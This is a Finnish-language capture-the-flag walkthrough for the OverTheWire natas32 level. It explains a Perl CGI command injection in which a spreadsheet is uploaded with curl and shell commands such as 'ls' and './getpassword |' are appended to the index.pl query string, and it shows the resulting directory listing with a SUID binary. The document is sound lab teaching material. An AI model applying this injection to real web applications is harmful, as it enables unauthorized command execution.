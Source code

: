 ![alt text](./kuvat-level29-34/natas32-11.png)

---

## miniyhteenveto - 1

Tässä natas32:ssa on sama idea kuin natas31-tasossa, mutta tässä on vähän paranneltu versio.

Mikä idea tässä oli?
Käytetään samaa Excel-taulukkoa – sisältö voi olla mitä tahansa, esim. pari satunnaista riviä, tekstiä tai kirjainta. Syötetään `curl`-komentoa, jolla testataan natas32:n URL:ia ja lähetetään se taulukko mukaan. URL:iin oletuksena tulee polku: `http://natas32.natas.labs.overthewire.org/index.pl?` - Tähän perään käytetään Linux-tyyppistä komentoa kuten `ls`, jotta nähdään hakemiston sisältö.


Tulostettuna näkyy hakemisto, ja sieltä löytyy tiedosto `getpassword`, jolla on `SUID`-bit (rws), eli se voidaan suorittaa root-oikeuksin. Tämän kautta haetaan **natas33-tason salasana**, joka sijaitsee binäärin kautta luettavassa tiedostossa.

Siksi tullaan syöttää tällainen URL parametrin injektio hyökkäys `http://natas32.natas.labs.overthewire.org/index.pl?./getpassword%20|` + ja mukaan excel taulukko filu ja näin ollen saadaan se salasanansa.


```
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>total 156
</td></tr><tr><td>drwxr-x--- 5 natas32 natas32  4096 Aug 15 13:06 bootstrap-3.3.6-dist
</td></tr><tr><td>-rwsrwx--- 1 root    natas32 16096 Aug 15 13:06 getpassword
</td></tr><tr><td>-rw-r--r-- 1 root    root     9740 Aug 15 13:06 index-source.html
</td></tr><tr><td>-r-xr-x--- 1 natas32 natas32  2968 Aug 15 13:06 index.pl
</td></tr><tr><td>-r-xr-x--- 1 natas32 natas32 97180 Aug 15 13:06 jquery-1.12.3.min.js
</td></tr><tr><td>-r-xr-x--- 1 natas32 natas32 16877 Aug 15 13:06 sorttable.js
</td></tr><tr><td>drwxr-x--- 2 natas32 natas32  4096 Sep 14 13:03 tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>

```
